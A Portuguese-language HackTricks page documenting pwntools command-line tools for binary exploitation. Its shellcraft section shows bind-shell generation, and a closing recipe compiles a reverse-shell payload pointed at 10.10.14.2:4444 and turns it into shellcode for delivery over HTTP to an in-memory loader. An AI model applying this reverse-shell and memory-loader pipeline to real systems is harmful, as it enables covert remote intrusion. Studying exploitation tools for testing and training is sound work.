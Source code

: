# PwnTools

{{#include ../../../banners/hacktricks-training.md}}
```
pip3 install pwntools
```
## Pwn asm

Obtenha **opcodes** de uma linha ou de um arquivo.
```
pwn asm "jmp esp"
pwn asm -i <filepath>
```
**Pode selecionar:**

- tipo de saída (raw,hex,string,elf)
- contexto do arquivo de saída (16,32,64,linux,windows...)
- evitar bytes (new lines, null, a list)
- selecionar encoder; debugar shellcode usando gdb; executar o output

## **Pwn checksec**

Script do Checksec
```
pwn checksec <executable>
```
## Pwn constgrep

## Pwn cyclic

Obtenha um padrão
```
pwn cyclic 3000
pwn cyclic -l faad
```
**Pode selecionar:**

- O alfabeto usado (caracteres minúsculos por padrão)
- Comprimento do padrão uniq (padrão 4)
- contexto (16,32,64,linux,windows...)
- Obter o offset (-l)

## Pwn debug

Anexar GDB a um processo
```
pwn debug --exec /bin/bash
pwn debug --pid 1234
pwn debug --process bash
```
**Pode selecionar:**

- Por executável, por nome ou por contexto pid (16,32,64,linux,windows...)
- gdbscript para executar
- sysrootpath

## Pwn disablenx

Desativar nx de um binário
```
pwn disablenx <filepath>
```
## Pwn disasm

Desassemblar opcodes hex
```
pwn disasm ffe4
```
**Pode selecionar:**

- context (16,32,64,linux,windows...)
- endereço base
- color(default)/no color

## Pwn elfdiff

Imprime diferenças entre 2 arquivos
```
pwn elfdiff <file1> <file2>
```
## Pwn hex

Obtenha representação hexadecimal
```bash
pwn hex hola #Get hex of "hola" ascii
```
## Pwn phd

Obter hexdump
```
pwn phd <file>
```
**Pode selecionar:**

- Número de bytes a mostrar
- Número de bytes por linha — byte de destaque
- Ignorar bytes no início

## Pwn pwnstrip

## Pwn scrable

## Pwn shellcraft

Obter shellcodes
```
pwn shellcraft -l #List shellcodes
pwn shellcraft -l amd #Shellcode with amd in the name
pwn shellcraft -f hex amd64.linux.sh #Create in C and run
pwn shellcraft -r amd64.linux.sh #Run to test. Get shell
pwn shellcraft .r amd64.linux.bindsh 9095 #Bind SH to port
```
**Pode selecionar:**

- shellcode e argumentos para o shellcode
- Arquivo de saída
- formato de saída
- debug (anexar dbg ao shellcode)
- antes (trap de debug antes do código)
- depois
- evitar usar opcodes (padrão: sem null e nova linha)
- Executar o shellcode
- Cor/sem cor
- listar syscalls
- listar shellcodes possíveis
- Gerar ELF como uma biblioteca compartilhada

## Pwn template

Obter um template em python
```
pwn template
```
**Pode selecionar:** host, port, user, pass, path e quiet

## Pwn unhex

De hex para string
```
pwn unhex 686f6c61
```
## Pwn update

Para atualizar pwntools
```
pwn update
```
## ELF → empacotamento raw shellcode (loader_append)

Pwntools pode transformar um ELF independente num único blob de raw shellcode que auto‑mapeia seus segmentos e transfere a execução para o entrypoint original. Isto é ideal para memory‑only loaders (por exemplo, apps Android invocando JNI para executar bytes baixados).

Pipeline típico (exemplo amd64)

1) Construa um payload ELF estático e independente de posição (musl recomendado para portabilidade):
```bash
musl-gcc -O3 -s -static -o exploit exploit.c \
-DREV_SHELL_IP="\"10.10.14.2\"" -DREV_SHELL_PORT="\"4444\""
```
2) Converter ELF → shellcode com pwntools:
```python
# exp2sc.py
from pwn import *
context.clear(arch='amd64')
elf = ELF('./exploit')
sc = asm(shellcraft.loader_append(elf.data, arch='amd64'))
open('sc','wb').write(sc)
print(f"ELF size={len(elf.data)} bytes, shellcode size={len(sc)} bytes")
```
3) Entregar sc a um memory loader (por exemplo, via HTTP[S]) e executar in-process.

Notas
- loader_append incorpora o programa ELF original dentro do shellcode e gera um pequeno loader que mmaps os segmentos e salta para o entry.
- Seja explícito sobre a arquitetura usando context.clear(arch=...). arm64 é comum em Android.
- Mantenha o código do seu payload independente de posição e evite pressupor detalhes sobre ASLR/NX do processo.

## Referências

- [Pwntools](https://docs.pwntools.com/en/stable/)
- [CoRPhone – ELF→shellcode pipeline used for Android in-memory execution](https://github.com/0xdevil/corphone)

{{#include ../../../banners/hacktricks-training.md}}
